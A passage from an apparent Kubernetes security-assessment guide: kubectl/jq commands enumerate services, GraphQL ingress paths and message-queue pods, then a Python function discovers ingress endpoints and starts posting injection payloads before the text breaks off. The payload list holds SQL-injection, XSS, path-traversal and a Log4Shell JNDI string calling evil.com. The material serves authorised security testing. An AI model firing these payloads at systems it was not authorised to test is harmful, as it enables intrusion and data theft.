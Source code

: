 ```bash
"\(.metadata.namespace)/\(.metadata.name): \(.spec.ports[].port)"' | head -20

# Check for GraphQL endpoints (common in cloud-native apps)
echo "Checking for GraphQL endpoints..."
kubectl get ingresses -A -o json | jq -r '.items[].spec.rules[].http.paths[] | select(.path | contains("graphql")) | .path' || echo "No GraphQL paths found in ingresses"

# Event-driven architecture security
echo "Event sources and message queues:"
kubectl get pods -A -o json | jq -r '.items[] |
select(.spec.containers[].image | contains("kafka") or contains("rabbitmq") or contains("redis") or contains("nats")) |
"\(.metadata.namespace)/\(.metadata.name): \(.spec.containers[0].image)"' | head -10
```

#### Input Validation and Sanitization
```python
# Python script for API security testing integration
import requests
import json
import subprocess

def assess_api_security():
    """Assess API security for cloud-native applications"""
    
    # Get ingress endpoints from Kubernetes
    try:
        ingress_result = subprocess.run([
            'kubectl', 'get', 'ingresses', '-A', '-o', 'json'
        ], capture_output=True, text=True)
        
        if ingress_result.returncode == 0:
            ingresses = json.loads(ingress_result.stdout)
            
            api_endpoints = []
            for ingress in ingresses.get('items', []):
                for rule in ingress.get('spec', {}).get('rules', []):
                    host = rule.get('host', 'localhost')
                    for path_info in rule.get('http', {}).get('paths', []):
                        path = path_info.get('path', '/')
                        api_endpoints.append(f"https://{host}{path}")
            
            print(f"Discovered {len(api_endpoints)} API endpoints")
            
            # Basic security checks (would be expanded with proper API testing tools)
            security_findings = []
            
            for endpoint in api_endpoints[:5]:  # Test first 5 endpoints
                print(f"Testing endpoint: {endpoint}")
                
                # Test for common injection patterns
                injection_payloads = [
                    "'; DROP TABLE users; --",
                    "<script>alert('xss')</script>",
                    "../../etc/passwd",
                    "${jndi:ldap://evil.com/a}"
                ]
                
                for payload in injection_payloads:
                    try:
                        # Test POST request with injection payload
                        response = requests.post(
                            endpoint,
```